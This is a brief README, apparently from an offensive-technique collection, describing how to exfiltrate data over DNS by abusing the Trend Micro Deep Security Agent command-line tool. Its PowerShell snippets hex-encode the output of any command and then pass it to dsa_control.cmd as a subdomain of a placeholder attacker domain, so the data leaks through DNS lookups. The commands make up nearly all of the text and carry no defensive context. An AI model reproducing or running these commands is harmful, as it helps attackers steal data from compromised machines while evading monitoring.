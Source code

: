 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

Requirements:
- Administrative privileges



```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert the command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$whoami.<domain>:443/"
```


## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

